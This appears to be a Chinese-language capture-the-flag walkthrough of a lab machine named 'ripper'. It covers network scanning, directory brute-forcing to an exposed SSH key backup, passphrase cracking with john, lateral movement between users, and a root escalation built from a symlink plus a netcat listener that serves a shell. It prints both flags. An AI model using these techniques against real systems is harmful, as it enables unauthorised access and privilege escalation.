



# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)
192.168.21.8    08:00:27:37:c9:fa       PCS Systemtechnik GmbH

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.981 seconds (129.23 hosts/sec). 5 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 00:53 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:37:C9:FA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,80 192.168.21.8  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 00:53 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:37:C9:FA (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```

# 漏洞利用
看一下80端口

```bash
┌──(root㉿kali)-[~]
└─# curl http://192.168.21.8                 

Website in maintenance... Come back next month please.
```
目录扫描

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.8 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,zip,git,txt,jpg,png
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              png,html,php,zip,git,txt,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 57]
/.html                (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/staff_statements.txt (Status: 200) [Size: 107]
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
```
看一下/staff_statements.txt
```bash
┌──(root㉿kali)-[~]
└─# curl http://192.168.21.8/staff_statements.txt

The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files.
```
扫一下可能ssh或是备份文件什么的

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.8 -w /usr/share/wordlists/dirb/common.txt -x ssh,pem,key,pub,bak,old,backup
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              key,pub,bak,old,backup,ssh,pem
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta.pem             (Status: 403) [Size: 277]
/.hta.key             (Status: 403) [Size: 277]
/.hta.pub             (Status: 403) [Size: 277]
/.hta.bak             (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.ssh             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta.old             (Status: 403) [Size: 277]
/.hta.backup          (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.pem        (Status: 403) [Size: 277]
/.htpasswd.key        (Status: 403) [Size: 277]
/.htpasswd.pub        (Status: 403) [Size: 277]
/.htpasswd.bak        (Status: 403) [Size: 277]
/.htpasswd.old        (Status: 403) [Size: 277]
/.htpasswd.backup     (Status: 403) [Size: 277]
/.htpasswd.ssh        (Status: 403) [Size: 277]
/.htaccess.ssh        (Status: 403) [Size: 277]
/.htaccess.pem        (Status: 403) [Size: 277]
/.htaccess.key        (Status: 403) [Size: 277]
/.htaccess.pub        (Status: 403) [Size: 277]
/.htaccess.old        (Status: 403) [Size: 277]
/.htaccess.backup     (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/id_rsa.bak           (Status: 200) [Size: 1876]
/index.html           (Status: 200) [Size: 57]
/server-status        (Status: 403) [Size: 277]
Progress: 36912 / 36920 (99.98%)
===============================================================
Finished
===============================================================
```
看一下/id_rsa.bak



使用靶机上显示的用户名登录一下，需要密码


```bash
┌──(root㉿kali)-[~]
└─# ssh jack@192.168.21.8 -i /home/kali/id_rsa.bak 
Enter passphrase for key '/home/kali/id_rsa.bak':
```
爆破一下

```bash
┌──(root㉿kali)-[~]
└─# ssh2john /home/kali/id_rsa.bak > /home/kali/id_rsa
┌──(root㉿kali)-[~]
└─# john -w=/usr/share/wordlists/rockyou.txt /home/kali/id_rsa

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bananas          (/home/kali/id_rsa.bak)     
1g 0:00:00:25 DONE (2025-03-18 03:59) 0.03988g/s 38.29p/s 38.29c/s 38.29C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
成功

```bash
┌──(root㉿kali)-[~]
└─# ssh jack@192.168.21.8 -i /home/kali/id_rsa.bak 
Enter passphrase for key '/home/kali/id_rsa.bak': 
Linux ripper 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 26 15:28:56 2021 from 192.168.0.28
jack@ripper:~$ 
```
# 提权
看看能找到什么

```bash
jack@ripper:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:,,,:/home/jack:/bin/bash
helder:x:1001:1001:,,,:/home/helder:/bin/bash
```
大概看了一下，还是传个linpeas吧



试试看是不是helder的，user.txt

```bash
jack@ripper:~$ su helder
Password: 
helder@ripper:/home/jack$cd ~
helder@ripper:~$ls -la
total 32
drwx------ 3 helder helder 4096 May 26  2021 .
drwxr-xr-x 4 root   root   4096 May 26  2021 ..
lrwxrwxrwx 1 root   root      9 May 26  2021 .bash_history -> /dev/null                                                         
-rw-r--r-- 1 helder helder  220 May 26  2021 .bash_logout
-rw-r--r-- 1 helder helder 3659 May 26  2021 .bashrc
drwxr-xr-x 3 helder helder 4096 May 26  2021 .local
-rw-r--r-- 1 helder helder  940 May 26  2021 .profile
-rwx------ 1 helder helder   33 May 26  2021 user.txt
-rw------- 1 helder helder   52 May 26  2021 .Xauthority
helder@ripper:~$cat user.txt 
5c38d7d08c687355cb0ae3b6025cbe99
```
上传一个pspy64看一下



后面是看大佬做的了，提权到root

```bash
helder@ripper:~$ln  -s  /root/.local/helder.txt  /home/helder/passwd.txt 
helder@ripper:~$ls  -la  /home/helder/passwd.txt
lrwxrwxrwx 1 helder helder 23 Mar 18 09:51 /home/helder/passwd.txt -> /root/.local/helder.txt
helder@ripper:~$echo 'bash' | nc -lvnp 10000
listening on [any] 10000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35090
helder@ripper:~$bash -p
helder@ripper:~$id
uid=1001(helder) gid=1001(helder) euid=0(root) egid=0(root) groups=0(root),1001(helder)
```
root.txt

```bash
helder@ripper:~$cd /root
helder@ripper:/root$ls -la
total 28
drwx------  3 root root 4096 May 26  2021 .
drwxr-xr-x 18 root root 4096 May 19  2021 ..
lrwxrwxrwx  1 root root    9 May 26  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 May 26  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rwx------  1 root root   33 May 26  2021 root.txt
-rw-r--r--  1 root root   66 May 26  2021 .selected_editor
helder@ripper:/root$cat root.txt 
e28f578a17a5f99c0381c4b689d96f9f
```